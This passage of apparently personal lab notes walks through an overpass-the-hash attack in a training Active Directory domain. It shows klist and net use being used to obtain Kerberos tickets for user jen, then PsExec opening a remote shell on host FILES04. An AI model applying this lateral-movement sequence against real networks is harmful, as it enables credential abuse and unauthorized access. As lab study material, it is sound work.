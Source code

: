 List kerberos tickets - `0` because Jen hasn't used it
```
PS C:\Windows\system32> klist

Current LogonId is 0:0x1583ae

Cached Tickets: (0)
```

Generate the TGT by authenticating to network share
```
PS C:\Windows\system32> net use \\files04
The command completed successfully.
```

Re-list kerberos tickets
```hlt:8,19
PS C:\Windows\system32> klist

Current LogonId is 0:0x17239e

Cached Tickets: (2)

#0>     Client: jen @ CORP.COM
        Server: krbtgt/CORP.COM @ CORP.COM
        KerbTicket Encryption Type: AES-256-CTS-HMAC-SHA1-96
        Ticket Flags 0x40e10000 -> forwardable renewable initial pre_authent name_canonicalize
        Start Time: 2/27/2023 5:27:28 (local)
        End Time:   2/27/2023 15:27:28 (local)
        Renew Time: 3/6/2023 5:27:28 (local)
        Session Key Type: RSADSI RC4-HMAC(NT)
        Cache Flags: 0x1 -> PRIMARY
        Kdc Called: DC1.corp.com

#1>     Client: jen @ CORP.COM
        Server: cifs/files04 @ CORP.COM
        KerbTicket Encryption Type: AES-256-CTS-HMAC-SHA1-96
        Ticket Flags 0x40a10000 -> forwardable renewable pre_authent name_canonicalize
        Start Time: 2/27/2023 5:27:28 (local)
        End Time:   2/27/2023 15:27:28 (local)
        Renew Time: 3/6/2023 5:27:28 (local)
        Session Key Type: AES-256-CTS-HMAC-SHA1-96
        Cache Flags: 0
        Kdc Called: DC1.corp.com
```
Successfully turned NTLM hash into TGT.
We can use TGT to PsExec as Jen to target.
PsExec does not accept NTLM hashes.
```
PS C:\tools\SysinternalsSuite> .\PsExec.exe \\files04 cmd

PsExec v2.4 - Execute processes remotely
Copyright (C) 2001-2022 Mark Russinovich
Sysinternals - www.sysinternals.com


Microsoft Windows [Version 10.0.20348.169]
(c) Microsoft Corporation. All rights reserved.

C:\Windows\system32>whoami
corp\jen

C:\Windows\system32>hostname
FILES04
```


[192.168.50.73]: PS C:\Users\jen\Documents> whoami
[192.168.50.73]: PS C:\Users\jen\Documents> hostname